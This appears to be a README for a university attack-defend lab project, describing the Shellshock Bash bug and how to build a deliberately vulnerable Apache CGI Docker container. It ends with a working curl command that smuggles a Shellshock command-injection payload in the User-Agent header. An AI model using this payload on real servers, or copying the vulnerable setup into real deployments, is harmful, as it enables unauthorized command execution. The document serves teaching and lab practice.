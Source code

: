 # CSEC-742-Project
**Attack Defend Exercise for Computer System Security (RIT CSEC-742)**

**Gain understanding and experience with vulnerabilities and exploitation**

Construct a vulnerable system for others to attack and configure a monitoring system to observe attacks. Set up a VM, configure it to be susceptible to an exploit, and connect it to the private subnet in the RIT Virtual Lab Environment. Attack other students' infrastructures to discover their vulnerabilities, observe attacks against your infrastructure, and create offensive and defensive reports reviewing the techniques you used or observed.

## Timeline
- Part 1: Exploit working (11/1)
- Part 2: Monitoring working (11/11)
- Part 3: Competition (11/13-11/25)
- Part 4: Writeups - Offensive and Defensive (11/29)
- Part 5: Comments and feedback for classmates (12/9)

## Exploit Overview
<img src="https://upload.wikimedia.org/wikipedia/commons/thumb/4/44/Shellshock-bug.png/1024px-Shellshock-bug.png" alt="Shellshock Logo" width="100"/>

**[Shellshock (CVE-2014-6271)](https://www.exploit-db.com/exploits/34765)**

Shellshock is a group of security bugs in Unix’s default Bash (Bourne-Again) shell which allow for a user to run arbitrary code on vulnerable devices that they can connect to. These vulnerabilities were discovered between September 12th and September 24th, 2014 with patches being co-developed by vulnerability researchers and the Bash maintainers prior to disclosure.  The initial discovery showed that Bash would unintentionally execute commands when they were concatenated to the end of function definitions stored in the values of environment variables. There were many ways that the bug could be leveraged, including via the internet through unpatched web servers, SSH servers, DHCP clients, and mail servers. Attackers began exploiting Shellshock within hours of disclosure, attacking various entities such as Akamai, Yahoo!, and the United States Department of Defense.

## Implementation Details

### Docker-Compose:
[Docker Hub](https://hub.docker.com/r/wwt92829/csec-472-project)
```
version: '3'

services:

  server:
    image: wwt92829/csec-472-project
    container_name: server
    ports:
      - "80:80"
```
1. Download a vulnerable version of Bash (this image uses 4.2) from [GNU's website](http://ftpmirror.gnu.org/bash/).
2. Create a web server (this image uses Apache httpd) and enable support for CGI. In httpd.conf:
    - Uncomment  `LoadModule cgid_module modules/mod_cgid.so` and `LoadModule cgi_module modules/mod_cgi.so`
    - Uncomment `ScriptAlias /cgi-bin/ "/usr/local/apache2/cgi-bin/"`
3. Create and frame a shell script with `Content-type: text/html` in an HTML file. The shell script should be stored in the cgi-bin directory specified in httpd.conf.
4. Build a Dockerfile from the [httpd](https://hub.docker.com/_/httpd) Docker image.
    - Update the package lists and install dependencies
    - Downgrade Bash by installing the old version with dpkg
    - Copy httpd.conf to the apache2/conf directory
    - Copy the HTML file with the framed shell script to the htdocs or /var/www/html directory
    - Set the shell script as executable using chmod and place it in the cgi-bin directory
5. Create a Docker-Compose file to build the container and expose the desired port on the host to the container's port 80.

### Run exploit:
```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'ls ../htdocs;'" http://<ip address>/cgi-bin/toucan
```
